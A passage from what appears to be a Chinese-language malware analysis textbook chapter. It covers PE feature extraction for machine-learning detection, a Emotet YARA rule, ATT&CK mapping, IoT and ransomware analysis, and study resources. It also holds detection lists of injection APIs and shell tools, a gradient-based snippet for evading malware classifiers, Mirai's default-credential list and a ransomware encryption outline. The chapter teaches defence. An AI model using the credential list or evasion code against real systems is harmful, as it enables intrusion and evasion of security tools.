    features['timestamp'] = pe.FILE_HEADER.TimeDateStamp
    features['characteristics'] = pe.FILE_HEADER.Characteristics
    features['optional_header_size'] = pe.FILE_HEADER.SizeOfOptionalHeader
    features['subsystem'] = pe.OPTIONAL_HEADER.Subsystem
    features['dll_characteristics'] = pe.OPTIONAL_HEADER.DllCharacteristics
    features['size_of_image'] = pe.OPTIONAL_HEADER.SizeOfImage
    features['size_of_headers'] = pe.OPTIONAL_HEADER.SizeOfHeaders
    features['checksum'] = pe.OPTIONAL_HEADER.CheckSum
    
    # === 2. 节区（Section）特征 ===
    entropies = []
    raw_sizes = []
    virtual_sizes = []
    for section in pe.sections:
        section_data = section.get_data()
        entropies.append(calculate_entropy(section_data))
        raw_sizes.append(section.SizeOfRawData)
        virtual_sizes.append(section.Misc_VirtualSize)
    
    features['avg_entropy'] = np.mean(entropies)
    features['max_entropy'] = np.max(entropies)
    features['min_entropy'] = np.min(entropies)
    features['avg_raw_size'] = np.mean(raw_sizes)
    features['avg_virtual_size'] = np.mean(virtual_sizes)
    
    # === 3. 导入表特征 ===
    if hasattr(pe, 'DIRECTORY_ENTRY_IMPORT'):
        features['num_imported_dlls'] = len(pe.DIRECTORY_ENTRY_IMPORT)
        total_functions = sum(
            len(entry.imports) for entry in pe.DIRECTORY_ENTRY_IMPORT
        )
        features['num_imported_functions'] = total_functions
        
        # 统计特定高风险API的出现次数
        suspicious_apis = [
            'VirtualAlloc', 'VirtualProtect', 'WriteProcessMemory',
            'CreateRemoteThread', 'NtCreateThreadEx', 'LoadLibrary',
            'GetProcAddress', 'WinExec', 'ShellExecute'
        ]
        all_imports = [
            imp.name.decode('utf-8', errors='ignore') 
            for entry in pe.DIRECTORY_ENTRY_IMPORT 
            for imp in entry.imports if imp.name
        ]
        for api in suspicious_apis:
            features[f'api_{api}'] = all_imports.count(api)
    
    # === 4. 字节直方图（256个特征） ===
    with open(file_path, 'rb') as f:
        data = f.read()
    byte_hist = np.zeros(256)
    for byte in data:
        byte_hist[byte] += 1
    byte_hist /= len(data)  # 归一化
    for i in range(256):
        features[f'byte_{i}'] = byte_hist[i]
    
    # === 5. 字符串特征 ===
    strings = extract_strings(data)
    features['num_strings'] = len(strings)
    features['avg_string_length'] = np.mean([len(s) for s in strings]) if strings else 0
    
    # 检测可疑字符串模式
    suspicious_patterns = [
        r'http[s]?://',  # URL
        r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}',  # IP地址
        r'[A-Z]:\\',  # 文件路径
        r'cmd\.exe|powershell|wscript|cscript',  # 系统工具
    ]
    for pattern in suspicious_patterns:
        matches = [s for s in strings if re.search(pattern, s, re.I)]
        features[f'pattern_{pattern[:20]}'] = len(matches)
    
    return features

def calculate_entropy(data):
    """计算数据的香农熵"""
    if not data:
        return 0
    counter = Counter(data)
    length = len(data)
    entropy = 0
    for count in counter.values():
        probability = count / length
        entropy -= probability * math.log2(probability)
    return entropy
```

**为什么熵值重要：** 压缩或加密的数据具有高熵值（接近8），而正常可执行代码的熵值通常在5-7之间。恶意软件使用加壳器（如UPX）或加密后，其代码段的熵值会显著升高，这是一个很强的检测信号。但需要注意，合法的压缩文件（如安装包）也会有高熵值，因此需要结合其他特征判断。

### 7.2 常用机器学习算法的适用场景

| 算法 | 适用场景 | 优势 | 劣势 | 检测精度（参考） |
|------|---------|------|------|----------------|
| 随机森林 | PE文件分类 | 可解释性好，处理高维特征稳健 | 序列数据处理能力弱 | 95-98% |
| XGBoost | 特征工程后分类 | 性能优异，自动特征重要性 | 参数调优复杂 | 97-99% |
| CNN | 原始字节分类 | 自动提取空间特征 | 需要大量训练数据 | 96-98% |
| LSTM/GRU | API调用序列 | 捕捉时间序列模式 | 训练时间长 | 94-97% |
| Transformer | 长序列分析 | 注意力机制捕捉长距离依赖 | 计算资源需求高 | 97-99% |
| 图神经网络 | 函数调用图分析 | 处理图结构数据 | 图构建复杂 | 93-96% |
| 自编码器 | 异常检测 | 无监督学习，不需要标签 | 阈值设定困难 | 90-95% |
| DBSCAN | 家族聚类 | 不需要预设聚类数 | 参数敏感 | 按家族分组 |

### 7.3 对抗性机器学习：攻击与防御

**逃逸攻击的实战方法：** 攻击者可以对恶意软件进行微小修改，使其在机器学习模型中的分类结果发生改变，同时保持恶意功能不变。常见的逃逸方法包括：

```python
# 逃逸攻击示例：基于梯度的对抗样本生成
import torch
import torch.nn as nn

def adversarial_perturbation(model, sample, target_label, epsilon=0.01):
    """生成对抗样本：修改PE文件使其被分类为良性"""
    sample_tensor = torch.tensor(sample, requires_grad=True)
    
    # 前向传播
    output = model(sample_tensor)
    loss = nn.CrossEntropyLoss()(output, torch.tensor([target_label]))
    
    # 反向传播计算梯度
    loss.backward()
    
    # 沿梯度方向添加扰动
    perturbation = epsilon * sample_tensor.grad.sign()
    adversarial_sample = sample + perturbation.detach().numpy()
    
    # 确保特征值在有效范围内
    adversarial_sample = np.clip(adversarial_sample, 0, 1)
    
    return adversarial_sample
```

**对抗性训练：** 在训练数据中加入对抗样本，使模型对微小扰动具有鲁棒性。这是目前最有效的防御方法，但需要持续更新对抗样本集以应对新的攻击方法。

## 八、自动化分析平台与威胁情报

### 8.1 Cuckoo Sandbox深度使用

Cuckoo Sandbox是最流行的开源恶意软件自动化分析平台，它在隔离的虚拟机环境中执行恶意软件样本，记录其行为并生成分析报告。

**Cuckoo的部署架构：**



**Cuckoo的关键配置：** conf/cuckoo.conf中配置虚拟机管理器类型、磁盘路径、网络配置；conf/processing.conf中配置哪些处理器启用（行为分析、静态分析、网络分析）；conf/reporting.conf中配置输出格式和存储。

### 8.2 YARA规则编写实战

YARA是恶意软件检测和分类的行业标准工具。一条好的YARA规则可以高效地从海量文件中识别特定的恶意软件家族。

```yara
rule Emotet_Loader_2024 {
    meta:
        description = "Emotet木马加载器变种检测规则"
        author = "Security Analyst"
        date = "2024-01-15"
        severity = "high"
        malware_family = "Emotet"
        reference = "MITRE ATT&CK T1566.001"
        
    strings:
        // 加载器使用的硬编码加密密钥
        $encrypt_key = { 48 8B 05 ?? ?? ?? ?? 48 89 44 24 ?? 48 8D 05 }
        
        // DLL导出函数名特征
        $export1 = "DllRegisterServer" ascii
        $export2 = "DllGetClassObject" ascii
        
        // 解密循环特征（XOR解密）
        $decrypt_loop = {
            8B 45 FC        // mov eax, [ebp-4]
            33 45 F0        // xor eax, [ebp-16]
            89 45 FC        // mov [ebp-4], eax
            83 45 FC 04     // add dword [ebp-4], 4
            E2 ??           // loop
        }
        
        // 网络通信URL模式
        $url_pattern = /\/[a-z]{3,8}\/[a-zA-Z0-9]{8,16}\/$/ ascii
        
        // 字符串特征
        $str1 = "Content-Type: application/x-www-form-urlencoded" ascii
        $str2 = "POST" ascii
        
    condition:
        uint16(0) == 0x5A4D and  // PE文件检查
        filesize < 500KB and      // 文件大小限制
        (
            ($encrypt_key and $decrypt_loop) or
            (2 of ($export*) and $url_pattern) or
            (all of ($str*) and $encrypt_key)
        )
}
```

### 8.3 MITRE ATT&CK映射

MITRE ATT&CK框架是恶意软件行为分析的标准化语言。将分析结果映射到ATT&CK战术和技术，可以实现威胁情报的结构化和可比较性。

| ATT&CK战术 | 技术ID | 技术名称 | 恶意软件示例 |
|-----------|--------|---------|------------|
| 初始访问 | T1566.001 | 鱼叉式钓鱼附件 | Emotet, TrickBot |
| 执行 | T1059.001 | PowerShell | Cobalt Strike, Empire |
| 持久化 | T1053.005 | 计划任务 | Emotet, QakBot |
| 防御规避 | T1055.001 | DLL注入 | TrickBot, Dridex |
| 凭证访问 | T1003.001 | LSASS内存 | Mimikatz, Rubeus |
| 横向移动 | T1021.002 | SMB/Windows管理共享 | WannaCry, EternalBlue |
| 命令与控制 | T1071.001 | HTTP/HTTPS | 大多数C2框架 |
| 数据外泄 | T1041 | C2通道外泄 | Cobalt Strike, Metasploit |

## 九、云原生与物联网恶意软件

### 9.1 容器恶意软件分析

云原生环境引入了新的攻击面。容器恶意软件利用容器的特性（共享内核、特权模式、镜像供应链）进行攻击。

**容器恶意软件的攻击向量：**

| 攻击类型 | 描述 | 影响范围 | 检测难度 |
|---------|------|---------|---------|
| 恶意容器镜像 | 在Docker Hub中投毒镜像 | 所有拉取该镜像的用户 | 高 |
| 容器逃逸 | 利用内核漏洞从容器逃逸到宿主机 | 宿主机及所有容器 | 极高 |
| 加密挖矿 | 在容器中运行加密货币挖矿程序 | 单个容器的计算资源 | 中 |
| 供应链攻击 | 入侵CI/CD管道注入恶意代码 | 所有构建产物 | 高 |

**容器安全扫描工具链：** Trivy扫描镜像中的已知漏洞和恶意软件，Falco监控容器运行时行为，Aqua Security提供全面的云原生安全解决方案。

### 9.2 物联网恶意软件的威胁模型

**Mirai及其变种的攻击模式：**

2016年9月，Mirai恶意软件感染了约60万台IoT设备（主要是网络摄像头和路由器），发动了峰值1.2Tbps的DDoS攻击，导致美国DNS提供商Dyn的基础设施瘫痪，影响了Twitter、Netflix、GitHub等主要网站。Mirai的技术特点是：扫描互联网上使用默认凭证的Telnet服务、暴力破解密码、将感染的设备加入C2僵尸网络。

```text
# Mirai的默认凭证表（部分）
root root
admin admin
admin password
root password
root 123456
root vizxv
admin 1111
root 7ujMko0vizxv
root 888888
support support
```

**IoT恶意软件的独特挑战：**
- 硬件架构多样：ARM、MIPS、PowerPC、x86，每种架构需要单独的分析环境
- 资源受限：低内存、低存储、无调试接口
- 固件提取困难：需要物理访问或利用漏洞
- 缺乏标准：没有统一的操作系统和软件栈

## 十、勒索软件的技术深度分析

### 10.1 勒索软件的加密机制

现代勒索软件的加密策略是混合加密：使用对称加密（AES、ChaCha20）加密文件内容，使用非对称加密（RSA、ECC）保护对称密钥。这样既保证了加密速度，又确保了解密密钥只能由攻击者持有。

**加密流程详解：**

1. 生成随机的对称密钥（每文件一个）
2. 使用AES-256-CTR或ChaCha20加密文件内容
3. 生成RSA-2048/ECC密钥对（或使用嵌入的公钥）
4. 用RSA公钥加密对称密钥
5. 将加密后的密钥附加到加密文件末尾
6. 安全擦除原始文件（多次覆写或删除）

**间歇性加密（Intermittent Encryption）：** 2022年后出现的技术，只加密文件的一部分（例如每16字节加密1字节，或只加密前几MB），大幅提高加密速度同时保持文件不可读。LockBit 3.0使用这种技术，可以在几分钟内加密整个系统的文件。

### 10.2 勒索软件即服务（RaaS）的商业模式



**主要RaaS平台对比：**

| RaaS平台 | 活跃时间 | 分成比例 | 特点 | 关闭原因 |
|---------|---------|---------|------|---------|
| Conti | 2019-2022 | 开发者20% | 企业化运营，内部泄露 | 内部分裂 |
| REvil | 2019-2022 | 开发者20-30% | 双重勒索先驱 | 执法行动 |
| LockBit | 2019-至今 | 开发者20% | 自动化程度最高 | 持续运营 |
| BlackCat | 2021-2023 | 开发者20-30% | Rust语言编写，跨平台 | 执法行动 |
| BlackBasta | 2022-2024 | 未公开 | 继承Conti成员 | 执法行动 |

## 十一、学习资源与进阶路径

### 11.1 必读书籍（按学习顺序）

| 书名 | 作者 | 出版社/年份 | 适用阶段 | 核心价值 |
|------|------|-----------|---------|---------|
| Practical Malware Analysis | Michael Sikorski, Andrew Honig | No Starch Press, 2012 | 入门到中级 | 静态和动态分析技术的系统学习，含大量实操实验 |
| Reverse Engineering for Beginners | Dennis Yurichev | 免费在线 (beginners.re) | 入门 | 逆向工程基础，覆盖多种架构（x86/ARM/MIPS） |
| The IDA Pro Book | Chris Eagle | No Starch Press, 2011 | 中级 | IDA Pro深度使用，是逆向工程的工具书 |
| Windows Internals (7th Ed) | Pavel Yosifovich等 | Microsoft Press, 2017 | 中级到高级 | Windows内核机制，理解Rootkit和内核恶意软件的必备 |
| Practical Reverse Engineering | Bruce Dang等 | Wiley, 2014 | 中级到高级 | x86/ARM/MIPS架构的逆向工程，含真实案例 |
| Malware Analysis and Detection Engineering | Abhijit Mohanta, Anoop Saldanha | Apress, 2020 | 中级到高级 | 机器学习检测技术与工程实践 |
| Gray Hat Hacking (6th Ed) | Allen Harper等 | McGraw-Hill, 2022 | 高级 | 综合性安全研究，包含恶意软件分析章节 |

### 11.2 在线学习平台与培训

| 平台/课程 | 类型 | 费用 | 核心内容 |
|----------|------|------|---------|
| SANS FOR610 | 专业培训 | ~$7,000 | 逆向工程恶意软件，业界认可度最高 |
| Malware Unicorn (malwareunicorn.org) | 免费教程 | 免费 | RE101/RE102逆向工程课程，适合自学 |
| OpenSecurityTraining | 免费课程 | 免费 | 逆向工程、恶意软件分析、漏洞研究 |
| Coursera - Malware Analysis | 在线课程 | ~$49/月 | 大学级别的恶意软件分析课程 |
| TCM Security - Practical Malware Analysis | 付费课程 | ~$300 | 实操导向的恶意软件分析 |

### 11.3 实验环境搭建指南

**恶意软件分析实验室的搭建原则：**

恶意软件分析必须在隔离环境中进行，绝对不能在生产环境或个人电脑上直接运行恶意样本。推荐的隔离方案按安全性从高到低排列：

| 隔离方案 | 安全性 | 成本 | 适用场景 |
|---------|-------|------|---------|
| 物理隔离专用机 | 极高 | 高（独立硬件） | 企业级恶意软件分析实验室 |
| VMware + 无网络 | 高 | 中 | 日常分析，不需要网络行为分析 |
| VirtualBox + 仅主机网络 | 高 | 免费 | 需要观察网络行为但不需要真实外网 |
| Cuckoo Sandbox | 高 | 免费 | 自动化批量分析 |
| ANY.RUN（在线） | 中 | 免费/付费 | 快速分析，不需要本地搭建 |
| Joe Sandbox（在线） | 中 | 付费 | 专业级在线分析 |

**推荐阅读顺序：** 先读《Practical Malware Analysis》建立系统性知识框架，然后用Malware Unicorn的免费课程做实操练习，再用《Windows Internals》深入理解操作系统机制，最后用《Practical Reverse Engineering》掌握高级逆向技术。

## 十二、思考题与实践指南

### 思考题

1. **无文件恶意软件持久化：** WMI事件订阅持久化与传统注册表持久化相比，有哪些检测和防御上的差异？为什么WMI持久化更难被发现？

2. **反调试对抗：** 恶意软件使用rdtsc指令进行时间检测时，为什么需要同时检查多个时间源（rdtsc、GetTickCount、QueryPerformanceCounter）？只使用单一时间源存在什么问题？

3. **机器学习局限：** 为什么基于机器学习的恶意软件检测对"零日恶意软件"的检测效果有限？对抗性攻击是如何绕过这些检测系统的？

4. **Rootkit检测：** DKOM只修改了进程链表，为什么Volatility的psxview插件需要同时检查多个进程列表？单一列表的检测为什么不可靠？

5. **沙箱设计：** 如何设计一个能够抵抗反沙箱技术的沙箱环境？需要考虑哪些维度的伪装（硬件、网络、用户行为、时间）？

6. **勒索软件防御：** 为什么"离线备份"是防御勒索软件最有效的策略？勒索软件是如何攻击在线备份系统的？

### 实践项目

1. **YARA规则编写：** 使用MalwareBazaar下载一个已知的恶意软件样本，分析其特征，编写YARA规则，然后在VirusTotal上验证规则的检测效果。

2. **Cuckoo Sandbox部署：** 搭建一个完整的Cuckoo Sandbox环境，分析至少10个不同家族的恶意软件样本，对比它们的行为特征。

3. **PowerShell恶意软件分析：** 分析一个真实的PowerShell恶意脚本，识别其载荷结构、混淆技术和C2通信机制。

4. **内存取证实战：** 使用Volatility分析一个感染了Rootkit的系统内存转储，识别被隐藏的进程和网络连接。

5. **机器学习检测模型：** 使用EMBER数据集（Endgame Malware BEnchmark for Research），训练一个随机森林分类器，评估其在测试集上的检测精度。

6. **APT报告分析：** 阅读一份公开的APT分析报告（如Mandiant、CrowdStrike发布的报告），将报告中描述的恶意软件行为映射到MITRE ATT&CK框架。

---

> **本章寄语：** 恶意软件分析是网络安全的核心技能，它融合了逆向工程、操作系统原理、网络协议和机器学习等多个领域的知识。真正的分析能力不是靠背诵工具列表获得的，而是在无数次拆解真实恶意样本的过程中逐步建立的。从今天开始，搭建你的分析实验室，下载第一个样本，开始你的分析之旅。
